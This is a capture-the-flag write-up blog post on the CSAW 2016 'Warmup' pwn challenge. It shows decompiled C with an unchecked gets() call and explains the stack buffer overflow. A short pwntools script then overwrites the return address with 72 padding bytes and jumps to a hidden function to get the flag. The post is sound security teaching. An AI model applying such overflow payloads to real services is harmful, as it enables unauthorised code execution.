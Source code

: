 ```yaml
---
title: '[CSAW 2016] PWN: Warmup Writeup'
author: Megabeets
type: post
date: 2016-09-18T22:01:55+00:00
url: /csaw-2016-pwn-warmup-writeup/
categories:
  - CSAW CTF 2016
  - Writeups
tags:
  - CSAW-2016
  - CTF
  - PWN
  - Writeups

---
```

#### **Description:**

> _So you want to be a pwn-er huh? Well let&#8217;s throw you an easy one 😉_  
> _nc pwn.chal.csaw.io 8000_
> 
> _<a class="chal-file" href="https://ctf.csaw.io/stat./8ef117ec4c05f79aebdf043f3d003c2b/warmup" target="_blank">warmup</a>_

Let&#8217;s connect to the server and play with it a little bit:

```sh
[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
>Beet

[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
>Beetttttttttttttttttttttt

[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


The program says &#8220;WOW:&#8221; followed by a memory address. This address is probably the address of the function we need to execute. Let&#8217;s open IDA to view the code:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	  char s; // [sp+0h] [bp-80h]@1
	  char v5; // [sp+40h] [bp-40h]@1

	  write(1, "-Warm Up-\n", 0xAuLL);
	  write(1, "WOW:", 4uLL);
	  sprintf(&s, "%p\n", 4195853LL);
	  write(1, &s, 9uLL);
	  write(1, (const void *)'@\aU', 1uLL);
	  return gets(&v5, '>');
}b
```


This is a classic BOF (Buffer Overflow) case. The main method uses the `gets()` function to receive the given input and returns it. `gets()` is storing 64 characters (40h). Because there is no validation of the given string we need to supply an input that will exploit the program and make it jump to the wanted address: 0x40060d.

A short python script will do the job:

```python
from pwn import *

r = remote('pwn.chal.csaw.io', 8000)
print r.recv()
r.sendline("A"*72 + "\x0D\x06\x40\x00\x00\x00\x00\x00")
print r.recvline()
```


And we got the flag: _FLAG{LET\_US\_BEGIN\_CSAW\_2016}_

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="./megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>
